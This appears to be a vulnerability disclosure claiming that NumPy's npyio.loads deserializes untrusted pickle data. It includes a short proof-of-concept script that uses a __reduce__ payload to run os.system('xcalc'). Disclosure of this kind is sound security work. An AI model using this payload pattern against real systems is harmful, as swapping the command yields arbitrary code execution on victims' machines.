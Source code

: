 # Description
NumPy is the fundamental package needed for scientific computing with Python. 
* **Vulnerability description**
    untrusted loading of data by the pickle.load function leading to Arbitrary code execution.

# Proof of Concept
Run exploit.py
```
import os
import pickle
#os.system('pip3 install numpy')
from numpy.lib import npyio
#payload formation
class ArbitraryCode:
    def __reduce__(self):
        cmd = ('xcalc')
        return os.system, (cmd,)
#exploiting
dumps = pickle.dumps(ArbitraryCode())
npyio.loads(dumps)
```
* `pip3 install numpy`
* `python3 exploit.py`
